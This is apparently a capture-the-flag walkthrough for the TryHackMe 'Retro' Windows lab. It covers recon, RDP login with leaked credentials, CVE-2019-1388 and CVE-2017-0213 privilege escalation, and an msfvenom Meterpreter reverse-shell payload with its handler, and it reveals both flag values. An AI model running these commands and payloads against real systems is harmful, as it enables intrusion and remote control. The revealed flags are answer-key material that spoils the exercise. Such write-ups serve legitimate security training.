# Retro


## Room Info

> **Name**
>
> 🔗 [Retro](https://tryhackme.com/room/retro)
>
> **Description**
>
> 📝 *There are two distinct paths that can be taken on Retro. One requires significantly less trial and error, however, both will work. An alternative version of this room is available in it's remixed version [Blaster](blaster.md).*
>
> 
>
> **Target IP**
>
> 🎯 `10.10.181.110`

## Recon

```bash
mkdir retro
cd retro
nmap 10.10.181.110
    80/tcp   open  http
    3389/tcp open  ms-wbt-server

nmap -sV -sC -Pn -oA retro 10.10.181.110
```

```bash
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-05-13T11:52:02+00:00; +2s from scanner time.
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2023-05-12T11:48:35
|_Not valid after:  2023-11-11T11:48:35
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2023-05-13T11:51:57+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
```

Perform Web Server directories enumeration.

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.181.110/FUZZ

[Status: 301, Size: 150, Words: 9, Lines: 2, Duration: 281ms]
    * FUZZ: retro
```

The enumeration found a folder named **`/retro`**.

Use a browser to navigate to:

- `http://10.10.181.110/retro/index.php/2019/12/09/ready-player-one/`

> 📌 Wade user left a comment with his password



Use the credentials to login to the target via the open RDP Port `3389`

- `Wade`:`parzival`

> I suggest to set the `Remmina` RDP resolution to a higher one, **`e.g`**
>
> - Open Remmina, `+` to create a Quick RDP Connect, select the resolution and `Save as Default`
>
> 

```bash
remmina -c rdp://wade@10.10.181.110

# It will open with the default set up resolution
```

Open the **`user.txt`** file on Wade's user desktop to get the first flag.


<details>
<summary>Reveal Flag - user.txt: 🚩</summary>


`3b99fbdc6d430bfb51c72c651a261927`



</details>


## Exploitation

Open `Internet Explorer` to initialize it.

Open `Google Chrome` and set it as **Default web browser** in Windows.



The bookmarked link refers to the [CVE-2019-1388](https://nvd.nist.gov/vuln/detail/CVE-2019-1388) - Windows Certificate Dialog Elevation of Privilege Vulnerability.

Check the Recycle Bin and restore the `hhupd` file.



Exploit the privesc vulnerability present in the Windows Certificate Dialog Box and run `cmd` with **Administrator** privileges.





- Even after the initialization of both the IE and Chrome browsers, there might not be any option for selecting the browser in the opened window.



### Meterpreter

Generate a manual payload to get a Metasploit Meterpreter session on the target.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.18.65.48 LPORT=4444 -f exe -o unprivileged-payload.exe
```

```bash
# Start a webserver in the same payload directory
python -m http.server 80
```

Download the payload on the target browser from this link

- `http://10.18.65.48/unprivileged-payload.exe`

Open Metasploit and set up a handler to listen on the `4444` port

```bash
msfconsole -q

setg RHOSTS 10.10.181.110
setg RHOST 10.10.181.110
use exploit/multi/handler
# Same as the generated payload
set payload windows/x64/meterpreter/reverse_tcp 
set LHOST 10.18.65.48 
set LPORT 4444
run
```

Run the `unprivileged-payload.exe` file on the target machine



Get `systeminfo` from the target and save the output to a file.

```bash
shell
systeminfo
```



## Privilege Escalation

Exploit the [CVE-2017-0213 - Windows COM Elevation of Privilege Vulnerability](https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213)

- Download the `CVE-2017-0213_x64.zip` package, unzip it and upload the **`CVE-2017-0213_x86.exe`** to the target.

```bash
wget https://raw.githubusercontent.com/SecWiki/windows-kernel-exploits/2b944b52ee30f8833a21f0805d2627ca1f15383a/CVE-2017-0213/CVE-2017-0213_x86.zip
```

```bash
# In the Meterpreter session
upload CVE-2017-0213_x86.exe
```

Run the `CVE-2017-0213_x86.exe` file from the Meterpreter session or using the RDP connection on the target.

```bash
shell
.\CVE-2017-0213_x86.exe
```

- Check the `CMD` as Administrator session on the target.



```bash
cd c:\Users\Administrator\Desktop
type root.txt.txt
```


<details>
<summary>Reveal Flag - root.txt: 🚩</summary>


`7958b569565d7bd88d10c6f22d1c4063`




</details>


- Remember that there can be other attack vectors to exploit target's vulnerabilities.

------

